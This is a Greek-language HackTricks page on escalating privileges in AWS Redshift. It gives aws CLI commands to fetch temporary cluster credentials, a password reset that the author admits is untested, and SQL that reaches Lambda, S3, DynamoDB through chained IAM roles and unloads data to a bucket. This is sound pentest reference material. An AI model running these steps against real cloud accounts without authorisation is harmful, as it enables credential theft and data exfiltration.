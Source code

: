# AWS - Redshift Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

Για περισσότερες πληροφορίες σχετικά με το RDS ελέγξτε:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Με αυτές τις άδειες μπορείτε να αποκτήσετε **πληροφορίες για όλα τα clusters** (συμπεριλαμβανομένου του ονόματος και του ονόματος χρήστη του cluster) και **να αποκτήσετε διαπιστευτήρια** για να έχετε πρόσβαση σε αυτό:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Με αυτές τις άδειες μπορείτε να αποκτήσετε **πληροφορίες για όλα τα clusters** και **να αποκτήσετε διαπιστευτήρια** για να έχετε πρόσβαση σε αυτά.\
Σημειώστε ότι ο χρήστης postgres θα έχει τις **άδειες που έχει η ταυτότητα IAM** που χρησιμοποιήθηκε για να αποκτήσει τα διαπιστευτήρια.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Είναι δυνατόν να **τροποποιήσετε τον κύριο κωδικό πρόσβασης** του εσωτερικού χρήστη postgres (redshift) από το aws cli (νομίζω ότι αυτές είναι οι άδειες που χρειάζεστε αλλά δεν τις έχω δοκιμάσει ακόμα):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

## Πρόσβαση σε Εξωτερικές Υπηρεσίες

{% hint style="warning" %}
Για να αποκτήσετε πρόσβαση σε όλους τους παρακάτω πόρους, θα χρειαστεί να **καθορίσετε τον ρόλο που θα χρησιμοποιήσετε**. Ένα cluster Redshift **μπορεί να έχει ανατεθεί μια λίστα ρόλων AWS** που μπορείτε να χρησιμοποιήσετε **αν γνωρίζετε το ARN** ή μπορείτε απλά να ορίσετε το "**default**" για να χρησιμοποιήσετε τον προεπιλεγμένο που έχει ανατεθεί.

Επιπλέον, όπως [**εξηγείται εδώ**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), το Redshift επιτρέπει επίσης τη συγχώνευση ρόλων (αρκεί ο πρώτος να μπορεί να αναλάβει τον δεύτερο) για να αποκτήσετε περαιτέρω πρόσβαση, απλά **χωρίζοντάς** τους με μια **κόμμα**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

Όπως εξηγείται στο [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), είναι δυνατόν να **καλέσετε μια συνάρτηση lambda από το redshift** με κάτι σαν:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Όπως εξηγείται στο [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), είναι δυνατόν να **διαβάσετε και να γράψετε σε S3 buckets**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Όπως εξηγείται στο [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), είναι δυνατόν να **πάρετε δεδομένα από το dynamodb**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Ο πίνακας Amazon DynamoDB που παρέχει τα δεδομένα πρέπει να δημιουργηθεί στην ίδια περιοχή AWS με το cluster σας, εκτός αν χρησιμοποιήσετε την επιλογή [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) για να καθορίσετε την περιοχή AWS στην οποία βρίσκεται ο πίνακας Amazon DynamoDB.
{% endhint %}

### EMR

Ελέγξτε [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
